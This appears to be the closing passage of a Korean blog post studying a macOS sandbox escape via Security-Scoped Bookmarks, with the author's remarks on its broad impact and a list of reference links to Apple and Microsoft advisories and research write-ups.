해당 취약점은 SSB를 사용하는 모든 macOS 샌드박스 앱에 영향을 줄 수 있으며, 단일 앱에 국한되지 않는 범용  macOS Sandbox Escape 기법으로 악용될 수 있다는 점에서 굉장히 위험했습니다..ㅎㅎ


이번 글에서 Sandbox Escape에 대해 공부해봤는데요! 재밌네요… 

다음번에도 재밌게 공부해오겠습니다~ 찡긋


## Reference

https://support.apple.com/en-us/122375

https://www.microsoft.com/en-us/security/blog/2025/05/01/analyzing-cve-2025-31191-a-macos-security-scoped-bookmarks-based-sandbox-escape/

https://www.microsoft.com/en-us/security/blog/2022/07/13/uncovering-a-macos-app-sandbox-escape-vulnerability-a-deep-dive-into-cve-2022-26706/

https://objectivebythesea.org/v4/talks/OBTS_v4_rWaisberg.pdf

https://github.com/yo-yo-yo-jbo/macos_app_structure

https://wojciechregula.blog/post/macos-sandbox-escape-via-terminal/